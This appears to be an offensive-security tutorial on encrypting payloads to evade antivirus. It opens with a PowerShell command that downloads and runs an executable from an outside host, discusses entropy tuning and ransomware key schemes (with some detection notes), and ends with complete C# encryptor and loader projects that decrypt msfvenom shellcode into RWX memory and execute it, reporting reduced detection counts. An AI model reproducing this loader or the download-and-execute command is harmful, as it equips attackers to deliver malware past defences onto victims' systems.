


PS C:\Users\Administrator> .\Encrypt.exe -c "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri "https://ironhulk.com/malware.exe" -OutFile "$env:TEMP\\Payload.exe\\"; Start-Process -FilePath "$env:TEMP\\Payload.exe\\" -NoNewWindow"
Encrypted payload: {0xBA, 0xDF, 0x00, 0x0D, 0x0E, 0xE8, 0xF9, 0xA5, 0xDE, 0x46, 0x48, 0x31, 0xAD, 0xBE, 0xEF, 0xCA}
PS C:\Users\Administrator>
What Exactly Is “Payload Encryption”?
In the context of offensive tooling, payload encryption is the practice of transforming an executable, shellcode, configuration block, or command stream into unreadable ciphertext and restoring it only at, or just before, execution. Unlike classic just-enough obfuscation (e.g., XOR’ing a few bytes), genuine payload encryption enforces cryptographic secrecy: no plaintext appears on disk and, if done properly, only fleetingly in memory. The key material can be hard-coded, derived on the fly, retrieved from a C2 channel, or calculated from attributes of the victim environment.
Why Do Adversaries Bother?
-
Stealth: Static scanners cannot match signatures they cannot see.
-
Flexibility: A single loader can unpack multiple mission-specific modules at runtime.
-
Control: By withholding keys or wrapping them in environmental conditions, operators decide where and when the code detonates, frustrating incident response and sandboxing efforts.
- MITRE’s Environmental Keying technique formalises this tactic in ATT&CK T1480.001.
Pros & Cons For Operators
Pros
- Bypasses string- and opcode-based detection; hampers reverse engineering
- Reuses commodity implants under fresh cryptographic wrappers
- Enables target gating (decrypt only on approved hosts)
Cons
- Increases complexity; key-exchange failures break builds
- Adds binary size and runtime overhead
- Weak crypto choices expose campaigns to easy tools
Detection and Defensive Considerations
Static YARA signatures can still flag decryptor stubs like API import patterns for CryptEncrypt, VirtualProtect, or self-modifying loops. Memory scanners hunt
for freshly committed RWX pages whose entropy suddenly drops after write-and-execute pivots. Behavioural analytics look for the hallmark sequence:
allocate → write high-entropy buffer → change protection → create thread. Yet, environmental keying and just-in-time key delivery force defenders to instrument the process context network, registry, VM introspection rather than rely solely on byte patterns.
Defending Against Security-Side Brute-Force:
When a threat-actor ships an encrypted payload, the real battle is no longer whether defenders will capture the ciphertext, sooner or later they will, but whether
anyone can crack it before the campaign is finished. Seasoned operators therefore harden the key itself, add layers of misdirection, and make brute-forcing financially or computationally irrational.
Use a keyspace that defenders cannot afford to search: Contemporary ransomware builders default to 256-bit AES or XChaCha20 session keys wrapped in RSA-2048 or Curve25519. One successful brute-force would cost weeks of GPU time and still expose only a single victim because each implant is keyed per-host. LockBit 3.0 is explicit about that design choice: the stub generates a fresh AES-CTR key on every endpoint and discards it once encryption finishes.
Symmetric vs. Asymmetric
What Operators Really Prefer?
Bulk encryption demands speed & stealth:
Encrypting gigabytes of victim data (or even a 500 KB reflective DLL) must finish before EDR’s behavioural models flag the process. AES-NI or ChaCha20 running in user space gives gigabytes-per-second throughput with only a few hundred bytes of decryption stub.
Key protection demands one-way secrecy:
If the same raw AES key were hard-coded in every build, any incident-responder could reverse one sample and unlock them all. Wrapping that key inside an RSA/ECC envelope means the blue team would have to crack 2048-bit RSA (computationally infeasible) or reach the attacker’s C2 to obtain the private key.
Hybrid approach
Generate random symmetric key → encrypt payload/data → encrypt that key with attacker’s public RSA/ECC key. This is the workflow documented in LockBit 3.0, BlackCat, Hive, Conti, and “fake” LockBit variants discovered by Trend Micro that switched to AES-CTR + MD5-derived per-file keys.
Why Not Purely Asymmetric?
- Throughput: Too slow for large payloads.
- Size: 20 MB beyond practical loader sizes.
- Detectability: Big-number libraries (bcryptprimitives, mbedTLS) that raise heuristic flags and leave unmistakable API traces (BCryptEncrypt, CryptImportKey, etc.)..
Why Not Purely Symmetric?
- Key Exposure: Raw AES keys can be extracted or brute-forced once captured.
What “Entropy Level” Really Means
In forensic tooling the entropy level of a file (or of an individual PE section, packet, log record, etc.) is the average Shannon entropy measured in bits per
byte. The scale runs from 0 (completely predictable, all-zero padding) to 8 (completely random—what you’d get from strong encryption or good PRNG output). IBM’s
QRadar docs use exactly this 0–8 scale when explaining why encrypted ZIPs look suspicious. Mathematically the scanner walks the byte array, builds a 256-bucket histogram,
and plugs the counts into: H = – Σ (pᵢ · log₂ pᵢ) where pᵢ is the probability of
each byte value 0-255. A perfectly uniform distribution gives 8.0 bits/byte; English text hovers around 4.3–5.0.
Why Authors Tune Entropy
Defenders long ago realised that “almost-8-bit entropy” flags encryption, packing or steganography. Static engines therefore raise risk scores on sections (or outbound file writes) whose entropy spikes past a threshold, commonly 7.2–7.5 bits/byte. Attackers respond in two ways:
- Camouflage: Compress-then-encrypt to drop entropy below ~7.5.
- Padding: Mix in zero pages or ASCII strings to lower the average.
- Fakes: Insert dummy import tables/config blocks to mislead scanners.
How security tools evaluate entropy
- Slice: Each file into chunks, whole file, per-section (PE headers, .text, .rsrc), or rolling windows of N kB..
- Compute: Measure Shannon entropy for each slice.
- Compare: Flag slices >7.5 bits/byte (excluding
.text) or feed values into ML models.
Behavioral monitors hook write APIs like
NtWriteFile and
WriteFileEx to catch high-entropy writes in real time.
If a process starts saving >7.6-bit data to many files, writes are blocked—mimicking modern anti-ransomware libraries.
Typical Entropy Ranges in Clean Files
Plain Text/Scripts
4.0 – 6.0
Highly repetitive ASCII
Native Executables: /bin/bash, kernel32.dll
6.0 – 7.0
Code mixed with headers
Compressed archives (ZIP, RAR)
7.5 – 7.9
Flattened byte frequencies
Encrypted/Packed Payloads
7.8 – 8.0
Near-uniform
Compression-Then-Encryption
Beating the Entropy Sensor
Static engines often flag any section with near-perfect entropy (~7.9 bits/byte). LockBit sidesteps this by LZ-compressing each victim file before running AES-CTR. Compressed data skews entropy downward just enough to dodge the simplest “high entropy” heuristic while still unpacking correctly after decryption.
Loader Taxonomy: Packers vs. Crypters vs. Protectors
Malware authors leverage specialized builders to wrap payloads in layers of compression, encryption, and anti-analysis:
⚙ Packer
What It Does: Compresses (optionally encrypts) a payload and self-extracts at runtime.
Examples: UPX, MPRESS, PECompact
Artifacts: Inflated entry‐point stub; decompression loops in disassembly.
🔒 Crypter
What It Does: Encrypts with a user-supplied key and adds a runtime decryptor stub.
Examples: ScrubCrypt, CryptOne
Artifacts: Encrypted .data section; minimal strings; single AES/RC4 stub.
🛡 Protector
What It Does: Wraps a crypter with VM obfuscation, anti-debug, and integrity checks.
Examples: Themida, VMProtect
Artifacts: Custom VM bytecode; mangled import tables; heavy anti-analysis tricks.
Project Overview:
Encryption, Decryption & Execution
-
1
Decrypt the payload
SmokeScreen()derives a 256-bit key & IV via PBKDF2, then AES-CBC-decryptsEncto raw shellcode. -
2
Allocate memory
VirtualAlloc(..., MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)returnsbarrel, marked RWX. -
3
Inject shellcode
Marshal.Copy()moves the decrypted bytes intobarrel. -
4
Launch thread
CreateThread()starts atbarrel, andWaitForSingleObject()waits for completion. -
5
Stealth mode
GetConsoleWindow() + ShowWindow()hides the console before decryption.
Detection: Before vs. After Encryption
Before

After

⚠️ The detection rate fell from 57 down to 19, likely because of un-obfuscated strings (we’ll cover string obfuscation techniques later).
C# project: Encryption & Decryption
Encryption Project
using System.Security.Cryptography;
using System.IO;
using System.Text;
using System;
public class ENC
{
public static byte[] AES_Encrypt(byte[] bytesToBeEncrypted, byte[] passwordBytes)
{
byte[] encryptedBytes = null;
byte[] saltBytes = new byte[] { 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16 };
using (MemoryStream ms = new MemoryStream())
{
using (RijndaelManaged AES = new RijndaelManaged())
{
AES.KeySize = 256;
AES.BlockSize = 128;
var key = new Rfc2898DeriveBytes(passwordBytes, saltBytes, 1000);
AES.Key = key.GetBytes(AES.KeySize / 8);
AES.IV = key.GetBytes(AES.BlockSize / 8);
AES.Mode = CipherMode.CBC;
using (var cs = new CryptoStream(ms, AES.CreateEncryptor(), CryptoStreamMode.Write))
{
cs.Write(bytesToBeEncrypted, 0, bytesToBeEncrypted.Length);
cs.Close();
}
encryptedBytes = ms.ToArray();
}
}
return encryptedBytes;
}
public static void PrintShellcode(byte[] shellcodeBytes)
{
StringBuilder shellcode = new StringBuilder();
shellcode.Append("byte[] Enc = new byte[");
shellcode.Append(shellcodeBytes.Length);
shellcode.Append("] { ");
for (int i = 0; i < shellcodeBytes.Length; i++)
{
shellcode.Append("0x");
shellcode.AppendFormat("{0:x2}", shellcodeBytes[i]);
if (i < shellcodeBytes.Length - 1)
{
shellcode.Append(",");
}
}
shellcode.Append(" };");
Console.WriteLine(shellcode.ToString());
}
public static void Main(string[] args)
{
//msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
byte[] buf = new byte[276] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,
0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,
0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,
0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,
0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
0x63,0x2e,0x65,0x78,0x65,0x00};
byte[] key = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes("MyK3yG0o0zH3r3")); // Change Password if needed
byte[] shellcodeEncrypted = AES_Encrypt(buf, key);
PrintShellcode(shellcodeEncrypted);
}
}
Decryption Project
using System;
using System.IO;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
namespace AppDomainInvasion
{
class Revolver
{
[DllImport("kernel32.dll", SetLastError = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint Size, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
[DllImport("kernel32.dll")]
static extern IntPtr GetConsoleWindow();
[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
[DllImport("kernel32.dll")]
static extern void Sleep(uint dwMilliseconds);
public static byte[] SmokeScreen(byte[] rifle, byte[] ammo)
{
byte[] bullets = null;
byte[] powder = new byte[] { 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16 };
using (MemoryStream magazine = new MemoryStream())
{
using (RijndaelManaged smoke = new RijndaelManaged())
{
smoke.KeySize = 256;
smoke.BlockSize = 128;
var clip = new Rfc2898DeriveBytes(ammo, powder, 1000);
smoke.Key = clip.GetBytes(smoke.KeySize / 8);
smoke.IV = clip.GetBytes(smoke.BlockSize / 8);
smoke.Mode = CipherMode.CBC;
using (var target = new CryptoStream(magazine, smoke.CreateDecryptor(), CryptoStreamMode.Write))
{
target.Write(rifle, 0, rifle.Length);
target.Close();
}
bullets = magazine.ToArray();
}
}
return bullets;
}
public static void Fire(byte[] round)
{
IntPtr barrel = VirtualAlloc(IntPtr.Zero, (UInt32)round.Length, 0x3000, 0x40);
Marshal.Copy(round, 0, barrel, round.Length);
IntPtr trigger = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
IntPtr hammer = IntPtr.Zero;
hammer = CreateThread(IntPtr.Zero, 0, barrel, IntPtr.Zero, 0, IntPtr.Zero);
WaitForSingleObject(hammer, 0xFFFFFFFF);
}
public static void Execute()
{
var lockup = GetConsoleWindow();
ShowWindow(lockup, 0);
//Change this with your encryption data
byte[] Enc = new byte[288] {
0x4f, 0xb4, 0xe8, 0xf9, 0xa5, 0xde, 0x46, 0x48, 0x31, 0xd3, 0xc2, 0x22, 0xb8, 0x36, 0x7f,
0xb8, 0xc1, 0x1f, 0x1f, 0x40, 0x86, 0x66, 0x7d, 0x7f, 0x15, 0xe0, 0x34, 0x3e, 0x31, 0x9a,
0xb9, 0x75, 0xca, 0xae, 0xed, 0x70, 0xa3, 0x4d, 0x5c, 0x89, 0x00, 0x85, 0xc3, 0x7a, 0xe6,
0xec, 0x1c, 0x8f, 0x35, 0x66, 0xec, 0x4f, 0xbc, 0xaa, 0xce, 0xb7, 0xbd, 0x94, 0x6e, 0x19,
0x1f, 0xd2, 0xdf, 0x4e, 0xb3, 0x22, 0x70, 0x1d, 0x6b, 0xa3, 0x3b, 0x4a, 0x9b, 0xa0, 0x26,
0x74, 0xe2, 0xd0, 0xed, 0x79, 0x34, 0xd2, 0x09, 0xc2, 0x48, 0x36, 0xf1, 0x0c, 0x5e, 0x64,
0xca, 0xc3, 0xed, 0x17, 0xca, 0x8b, 0x32, 0x96, 0xc7, 0xcc, 0x7c, 0xcb, 0x4c, 0xcd, 0x15,
0x53, 0x03, 0x09, 0xe4, 0x38, 0x40, 0x2d, 0x80, 0x66, 0xa1, 0x31, 0xda, 0x28, 0x42, 0x4a,
0xad, 0x34, 0xba, 0x49, 0xa9, 0x46, 0x61, 0x01, 0x59, 0x7b, 0x10, 0x11, 0x0c, 0x81, 0x09,
0x3c, 0x1c, 0x1a, 0xfe, 0xc8, 0xa9, 0x85, 0x3d, 0x6a, 0x30, 0xb5, 0x81, 0xb2, 0x3e, 0xd1,
0x77, 0x11, 0x5e, 0xac, 0x5e, 0x3a, 0x71, 0x97, 0x19, 0x24, 0xf2, 0xf3, 0xa4, 0x86, 0x5d,
0x1c, 0x0c, 0x5a, 0xd5, 0xae, 0x5d, 0xff, 0x53, 0x05, 0xe4, 0xa1, 0x96, 0xdd, 0x22, 0x6e,
0xa8, 0x17, 0x25, 0xc3, 0x25, 0xb9, 0xde, 0xd3, 0xe2, 0x76, 0xa5, 0x0f, 0x85, 0x91, 0x2e,
0xd9, 0xd9, 0xba, 0x00, 0x0f, 0x92, 0x97, 0x04, 0x25, 0x89, 0x27, 0x31, 0xbb, 0xe3, 0x81,
0x4d, 0xaa, 0x63, 0x78, 0xc3, 0x58, 0x76, 0x9a, 0x24, 0xf6, 0xb9, 0xb4, 0x1e, 0x92, 0x7a,
0xdb, 0xe5, 0xd5, 0xaa, 0xd0, 0xbc, 0xec, 0xbc, 0xd5, 0x82, 0xef, 0x0c, 0xec, 0x85, 0x05,
0x7b, 0xcf, 0xf2, 0xfe, 0xc7, 0xa8, 0x9f, 0xb9, 0xe5, 0x3d, 0xc9, 0xf7, 0xff, 0x72, 0xef,
0xc1, 0x56, 0x44, 0x40, 0xd4, 0x8d, 0x21, 0x19, 0x07, 0xe0, 0x05, 0x09, 0x6f, 0x94, 0x63,
0xcf, 0x85, 0x86, 0x03, 0x95, 0x13, 0x2b, 0x14, 0xc6, 0x1c, 0x82, 0x31, 0x34, 0xdd, 0x33,
0x9a, 0xd5, 0x72 };
byte[] gunpowder = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes("MyK3yG0o0zH3r3")); //Change this
Enc = SmokeScreen(Enc, gunpowder);
Fire(Enc);
}
public static void Main(string[] args)
{
Execute();
}
}
}